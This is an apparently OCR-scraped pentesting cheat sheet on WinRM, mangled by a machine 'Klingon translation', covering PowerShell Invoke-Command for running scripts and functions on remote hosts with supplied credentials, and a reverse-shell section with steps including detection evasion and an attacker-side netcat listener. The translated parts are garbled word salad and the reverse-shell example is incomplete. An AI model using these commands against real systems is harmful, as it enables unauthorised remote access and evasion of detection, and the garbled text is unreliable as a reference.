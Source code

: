 **tlhIngan Hol translation:**

**'ej** _**Invoke-Command**_ **vetlh** **PS console** **command** **execute** **command** **current** **function** **enumeration** **local** **computer** **remote** **execute** **want** **Suppose** **you can do**:
```powershell
Invoke-Command -ComputerName <computername> -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```
### QapHa' Script

To execute a script on a Windows Remote Management (WinRM) service, you can use the `Invoke-Command` cmdlet in PowerShell. This cmdlet allows you to run commands or scripts on remote systems.

Here is an example of how to execute a script using `Invoke-Command`:

```powershell
Invoke-Command -ComputerName <target> -ScriptBlock { <script> }
```

Replace `<target>` with the IP address or hostname of the target system, and `<script>` with the script you want to execute.

Make sure that WinRM is enabled on the target system and that you have the necessary permissions to execute scripts remotely. You may need to configure WinRM settings and set up appropriate firewall rules to allow the connection.

Remember to use this technique responsibly and only on systems that you have proper authorization to access.
```powershell
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]
```
### Qapvam 'ej pongDaj

#### Description
A reverse shell is a technique used in hacking to gain remote access to a target system. It involves establishing a connection from the target system to the attacker's machine, allowing the attacker to execute commands on the target system.

#### Steps
1. Identify a vulnerable service or application on the target system that can be exploited to gain remote access.
2. Determine the IP address and port number of the attacker's machine.
3. Use a payload or exploit to establish a reverse shell connection from the target system to the attacker's machine.
4. Once the connection is established, the attacker can execute commands on the target system as if they were physically present.
5. Take precautions to avoid detection, such as using encrypted connections or disguising the traffic.

#### Example
Here is an example of using the `nc` command to create a reverse shell connection:

```
attacker$ nc -lvp <port>
```
